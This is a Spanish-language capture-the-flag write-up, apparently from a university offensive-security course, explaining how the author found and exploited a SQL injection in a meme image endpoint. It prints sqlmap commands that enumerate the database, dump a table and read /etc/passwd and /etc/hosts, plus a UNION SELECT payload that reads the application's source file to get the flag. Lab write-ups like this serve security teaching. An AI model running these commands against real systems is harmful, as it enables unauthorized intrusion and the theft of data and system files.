 # Ejercicio 3

Cuando ingresamos a la pagina, vemos que nos muestra varias imagenes, pero hay una en particular que no se muestra

Si inspeccionamos esta imagen, vemos que su `src` es `meme?id=5`

Yendo a esa url, vemos que nos salta un error 500.

Si cambiamos el id por alguno de los valores `1, 2, 3, 4` vemos que se muestran las imagenes del HOME en 'formato texto'

En ese momento corri `sqlmap` sobre la url para ver si el parametro `id` era vulnerable, y me salio que lo era a time-based injection

Gracias a la herramienta, automaticamente pude averiguar el nombre de la base de datos, nombre de las tablas, etc.

```
sqlmap -u "http://143.0.100.198:5010/meme?id=1" --dbs
sqlmap -u "http://143.0.100.198:5010/meme?id=1" -D memes_db --tables
sqlmap -u "http://143.0.100.198:5010/meme?id=1" -D memes_db -T memes --dump
```

Ahora entendia porque no podia ver la imagen con `id=5`, justamente, su filename no tenia sentido

+----+----------------+--------+-------------------+
| id | title          | parent | filename          |
+----+----------------+--------+-------------------+
| 1  | Gondor Captain | 1      | files/boromir.jpg |
| 2  | GranMa         | 1      | files/cookies.jpg |
| 3  | You            | 1      | files/hacker.jpg  |
| 4  | Not too fine   | 1      | files/fine.png    |
| 5  | Diegote        | 1      | klpsrmfazznufesg  |
+----+----------------+--------+-------------------+

Ahi tuve otra idea mas. Me imagine que lo que hacia la url, era obtener el path del archivo a mostrar. Luego, yo podria supuestamente cargar cualquier archivo si proporcionaba bien el path.

Esto no me funciono con archivos comunes que quise encontrar, y entonces volvi a usar `sqlmap` para leer algunos archivos del sistema

Por ejemplo, lei el /etc/passwd y /etc/hosts de la maquina

```
sqlmap -u "http://143.0.100.198:5010/meme?id=1" --file-read=/etc/passwd
sqlmap -u "http://143.0.100.198:5010/meme?id=1" --file-read=/etc/hosts
```

No obstante, en este momento ya estaba perdido, y solo pude continuar gracias a la pista proporcionada.

Simplemente hice un script para probar todas las palabras del archivo proporcionado en el zip.

De esta manera, encontre que podia acceder a `http://143.0.100.198:5010/meme?id=0 UNION SELECT 'main.py'`

Justamente en ese archivo, se encontraba la flag `SEGURIDAD-OFENSIVA-FAMAF`
